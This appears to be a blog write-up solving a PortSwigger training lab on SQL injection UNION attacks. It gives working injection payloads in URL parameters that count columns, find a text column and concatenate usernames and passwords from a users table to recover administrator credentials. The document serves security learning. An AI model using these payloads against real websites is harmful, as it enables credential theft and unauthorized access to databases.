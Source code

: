 ```yaml
---
title: PSA - SQLi 6 - UNION attack, retrieving multiple values in a single column
date: 2023-03-06
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test where is the string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--   # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc'--   # works
````

Ok the second column is a string one. To extract both users and passwords columns we will have to concatenate them into just one columns using the special operator `<string> || <string>` (can vary according to the DBMS).

Let’s try on the full request now:

````text
<website>/filter?category=Gifts' UNION SELECT NULL,username || '~' || password FROM users-- # administrator~password
````
